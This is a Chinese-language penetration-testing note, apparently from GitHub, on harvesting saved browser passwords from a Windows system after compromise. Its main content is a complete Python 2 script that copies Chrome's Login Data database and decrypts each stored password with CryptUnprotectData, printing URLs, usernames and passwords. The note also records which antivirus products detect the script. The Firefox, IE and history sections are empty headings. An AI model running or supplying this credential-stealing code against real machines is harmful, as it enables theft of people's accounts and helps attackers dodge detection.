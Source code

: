 <!-- TOC -->

- [前言](#前言)
- [密码抓取原理](#密码抓取原理)
    - [Chrome](#chrome)
    - [FireFox](#firefox)
    - [IE](#ie)
- [密码抓取实现](#密码抓取实现)
    - [Chrome](#chrome-1)
- [历史记录获取](#历史记录获取)
- [参考](#参考)

<!-- /TOC -->

## 前言
*每一次都在彷徨中挣扎，每一次……* 在后渗透阶段，获得权限后需要搜集目标系统的信息。信息越全面，越有助于进一步的渗透。对于Windows系统，用户浏览器往往包含非常有价值的信息。

## 密码抓取原理
### Chrome
![](https://www.github.com/52stu/Images/raw/master/xsj/1572253732185.png)

![](https://www.github.com/52stu/Images/raw/master/xsj/1572253750873.png)


Chrome中保存的密码先被二次加密，然后被保存在SQLite数据库文件中，位置如下：`%LocalAppData%\Google\Chrome\User Data\Default\Login Data`，可以使用`SQLiteStudio`打开，如下图：

![](https://www.github.com/52stu/Images/raw/master/xsj/1572254243325.png)

选择Form view，查看十六进制格式，获得**Chrome通过Windows API CryptProtectData()实现**二次加密后的用户密码，如下图：

![](https://www.github.com/52stu/Images/raw/master/xsj/1572254275757.png)


**注：**

如果Chrome正在运行，无法使用SQLiteStudio打开数据库文件Login Data，可将该文件复制后再打开

### FireFox

### IE

## 密码抓取实现
### Chrome
首先，编写程序实现读取SQLite数据库文件，这里选择使用python实现

开源代码很多，所以这里只给出一个示例：
```python
from os import getenv
import sqlite3
import binascii
conn = sqlite3.connect(getenv("APPDATA") + "\..\Local\Google\Chrome\User Data\Default\Login Data")
cursor = conn.cursor()
cursor.execute('SELECT action_url, username_value, password_value FROM logins')
for result in cursor.fetchall():
    print (binascii.b2a_hex(result[2]))
```

读取得到的加密内容，还需要解密，通过[加密代码](https://github.com/scheib/chromium/blob/eb7e2441dd8878f733e43799ea77c2bab66816d3/chrome/browser/password_manager/password_store_win_unittest.cc#L107)我们可以得到解密的两个关键点：
1. 解密函数为CryptUnprotectData
2. 只有与加密数据的用户具有相同登录凭据的用户才能解密数据

**Chrome密码抓取完整代码**

```python
import os
import sqlite3
import win32crypt
import binascii
import shutil


paths_data = [
    os.getenv("APPDATA") + "\..\Local\Google\Chrome\User Data\Default\Login Data",
    os.getenv("APPDATA") + "\google\chrome\User Data\Default\Login Data"
]

path_data_chrome = [path for path in paths_data if os.path.exists(path)]


def Readpass(path_data):
    try:
        
        path_data_copy = os.getcwd() + '\\chrome_data'
        shutil.copy(path_data,path_data_copy)
        
    except Exception,e:
        print e
        
    try:
        conn = sqlite3.connect(path_data_copy)
        cur = conn.cursor()
    except Exception, e:
        print e

    #####核心代码开始#####
    cur.execute('SELECT origin_url, username_value, password_value FROM logins')
    data_result = {}

    for res in cur.fetchall():
        try:
            password = win32crypt.CryptUnprotectData(res[2], None, None, None, 0)[1]
        except Exception,e:
            password = ''
        URL = res[0];username = res[1]
        #####核心代码结束#####


        tplt = "{0:60s} {1:20s} {2:20s}"
        print tplt.format(URL, username, password)
        print "----------------------------------------------------------------------------------------------------"
        
        
if __name__ == '__main__':    
    if len(path_data_chrome) < 1:
        print " Chrome is not Installed!!!"
        sys.exit()
    elif len(path_data_chrome) > 1:
        print('{0:60s} {1:20s} {2:20s}'.format("URL", "UserName", "PassWord"))
        print "===================================================================================================="
        for p in path_data_chrome:
            Readpass(p)
    else:
        print('{0:60s} {1:20s} {2:20s}'.format("URL", "UserName", "PassWord"))
        print "===================================================================================================="
        Readpass(path_data_chrome[0])
    if os.path.exists(path_data_chrome):
        try:
            os.remove(path_data_chrome)
        except Exception,e:
            print e

```

**杀软对抗测试**
* Avast_free_antivirus （20191029 杀）
* Malwarebytes premium trial 2 （20191029 过）

## 历史记录获取

## 参考


[渗透技巧——导出Chrome浏览器中保存的密码]()
https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)

[渗透技巧——离线导出Chrome浏览器中保存的密码](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E7%A6%BB%E7%BA%BF%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)

[渗透技巧——利用Masterkey离线导出Chrome浏览器中保存的密码](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E5%88%A9%E7%94%A8Masterkey%E7%A6%BB%E7%BA%BF%E5%AF%BC%E5%87%BAChrome%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%AD%E4%BF%9D%E5%AD%98%E7%9A%84%E5%AF%86%E7%A0%81/)